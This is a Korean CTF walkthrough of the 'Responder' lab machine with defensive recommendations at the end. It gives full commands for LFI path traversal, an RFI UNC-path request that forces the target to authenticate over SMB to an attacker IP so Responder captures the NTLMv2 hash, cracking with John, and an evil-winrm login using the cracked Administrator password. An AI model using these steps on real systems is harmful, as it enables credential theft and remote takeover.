# Responder

## 개요
이 문제는 PHP 웹 서버의 `page` 파라미터에서 발생하는 LFI/RFI 취약점을 이용하여 Responder로 NTLMv2 해시를 탈취하고, John the Ripper로 크랙한 뒤 WinRM으로 원격 접속하여 flag를 획득하는 과정이다. 핵심은 RFI를 통한 SMB 인증 강제와 NTLM 해시 크래킹이다.

---

## 대상 정보
- Target IP: <TARGET_IP>
- OS: Windows (Win64)
- Service: HTTP (80/tcp), WinRM (5985/tcp)

---

## 1. 서비스 발견

기본 nmap 스캔을 통해 열린 포트와 서비스를 확인한다.
```bash
nmap -sC -sV $IP
```



80번 포트에서 Apache httpd 2.4.52 (Win64) + PHP/8.1.1이 실행 중인 것을 확인할 수 있다. Windows 서버임을 알 수 있다.

---

## 2. /etc/hosts 등록

웹 서버가 가상 호스트 기반으로 동작하므로 도메인을 로컬에 등록한다.
```bash
echo "10.129.14.81 unika.htb" | sudo tee -a /etc/hosts
```



이후 `http://unika.htb`로 접속이 가능해진다.

---

## 3. 웹 페이지 확인 및 파라미터 발견

브라우저로 접속하여 웹 서비스를 확인한다.


우측 상단의 EN 버튼을 클릭하면 URL이 변경되며 `page` 파라미터가 노출된다.



`http://unika.htb/index.php?page=french.html` 형태로 파라미터가 파일 경로를 직접 받아 처리하는 구조임을 확인할 수 있다.

---

## 4. LFI 취약점 확인

`page` 파라미터에 디렉토리 트래버설 페이로드를 삽입하여 서버 내부 파일에 접근을 시도한다.
```bash
curl http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```



Windows의 hosts 파일 내용이 출력되는 것을 확인할 수 있다. `../`를 반복하여 루트 디렉토리까지 올라간 뒤 원하는 경로의 파일을 읽을 수 있다.

---

## 5. Responder 실행

RFI를 통해 서버가 공격자 IP로 SMB 인증 요청을 보내도록 유도하기 위해 먼저 Responder를 실행한다.
```bash
sudo responder -I tun0
```



SMB 서버가 활성화된 상태로 대기 중인 것을 확인할 수 있다.

---

## 6. RFI를 통한 NTLMv2 해시 탈취

Responder가 실행 중인 상태에서 `page` 파라미터에 공격자 IP를 가리키는 UNC 경로를 삽입한다.
```bash
curl "http://unika.htb/index.php?page=//10.10.14.167/somefile"
```



서버가 `\\10.10.14.167\SOMEFILE`로 SMB 연결을 시도하면서 Responder가 NTLMv2 해시를 캡처하는 것을 확인할 수 있다.



`RESPONDER\Administrator` 계정의 NTLMv2 해시가 성공적으로 캡처되었다.

---

## 7. 해시 저장 및 크랙

캡처한 해시를 파일로 저장한 뒤 John the Ripper로 크랙한다.
```bash
echo "<hash>" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```





rockyou.txt wordlist를 통해 `Administrator` 계정의 패스워드가 `badminton`임을 확인할 수 있다.

---

## 8. WinRM 포트 확인

전체 포트 스캔으로 WinRM 서비스가 동작 중인 포트를 확인한다.
```bash
nmap -p- --min-rate 5000 $IP
```



5985번 포트에서 WS-Man (WinRM) 서비스가 실행 중인 것을 확인할 수 있다.

---

## 9. Evil-WinRM으로 원격 접속

크랙한 크레덴셜로 WinRM을 통해 원격 접속한다.
```bash
evil-winrm -i $IP -u Administrator -p badminton
```



Administrator 권한으로 원격 셸 접속에 성공하는 것을 확인할 수 있다.

---

## 10. flag 획득

PowerShell로 C 드라이브 전체에서 flag.txt를 탐색한다.
```powershell
Get-ChildItem -Path C:\ -Filter flag.txt -Recurse -ErrorAction SilentlyContinue
type C:\Users\mike\Desktop\flag.txt
```



`C:\Users\mike\Desktop\flag.txt` 경로에서 flag를 성공적으로 획득할 수 있다.

---

## 11. 취약점 원인 분석

- `page` 파라미터가 사용자 입력을 그대로 `include()`에 전달하여 LFI/RFI 취약점 발생
- RFI를 통해 서버가 외부 SMB 요청을 보내도록 유도 가능
- NTLM 인증 과정에서 해시가 노출되어 오프라인 크래킹 가능
- WinRM 서비스가 외부에 노출된 상태에서 크래킹된 크레덴셜로 접근 가능

---

## 12. 실제 환경에서의 위험성

- 서버 내부 파일 읽기 (LFI)
- 외부 SMB 요청 강제를 통한 NTLMv2 해시 탈취
- 오프라인 패스워드 크래킹으로 계정 탈취
- WinRM을 통한 원격 코드 실행 및 시스템 완전 장악

---

## 13. 핵심 정리

- `include()` 등 파일 포함 함수에는 반드시 입력값 검증과 화이트리스트 필터링이 필요하다
- 서버가 외부로 SMB 요청을 보낼 수 없도록 방화벽 아웃바운드 규칙을 설정해야 한다
- NTLM 인증 대신 Kerberos 사용을 권장하며, NTLMv1은 비활성화해야 한다
- WinRM 서비스는 필요한 IP만 허용하도록 접근 제어가 필요하다
